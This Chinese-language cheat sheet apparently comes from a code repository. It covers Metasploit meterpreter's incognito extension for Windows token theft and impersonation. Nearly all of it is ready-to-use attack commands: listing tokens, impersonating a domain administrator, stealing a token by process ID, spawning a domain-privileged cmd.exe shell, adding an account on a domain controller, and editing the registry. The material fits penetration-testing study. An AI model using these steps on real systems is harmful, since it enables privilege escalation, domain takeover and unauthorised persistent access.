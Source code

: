 #  meterpreter incoginto 假冒用户

## 盗取令牌

## 加载功能

```
use incognito
```
列出目标主机用户的可用令牌

```
list_tokens -u     \\列出目标主机用户的可用令牌
```
```
list_tokens -g     \\列出目标主机用户组的可用令牌
```
```
impersonate_token DOMAIN_NAME\\USERNAME     假冒目标主机上的可用令牌,
```
> 如meterpreter > impersonate_token QLWEB\\Administrato
```
meterpreter >execute -f cmd.exe -i -t #调用域权限shell
```
```
add_user 0xfa funny –h192.168.3.98        #在域控主机上添加账户
```
```
reg command       # 在目标主机注册表中进行交互，创建，删除，查询等操作
```
> 另一个提权的方法是扮演一个帐户从一个特定进程偷取令牌。

## 为此，我们需要“incognito”扩展，使用
```
“steal_token+PID”
```
## 执行PS后，得到的信息可知， ADMIN的pid为xxx
PID可以为任何权限

![](img/1.gif)

> <h2>PS:所以我们在执行命令后虽然提示错误信息，但是它仍会被成功在后台执行
</h2>


这个例子中我们使用的是steal_token 640，其中由前面执行ps后得到的信息可知，PID为640的权限为administrator，所以我们在执行命令后虽然提示错误信息，但是它仍会被成功在后台执行，所以在运行steal_token后核实UID，我们的权限就变为了administrator了。

![](img/2.gif)
```
load incognito        --加载插件
```
## 列出当前用户`token`
```
list_token -u
```
## 伪造成域用户 记得要两个`\\`
```
impersonate_token XXXXX\\ADMINXXX      \伪装成域的账户 
```
## 调用域权限`shell`
```
execute -f cmd.exe -i -t   
```

























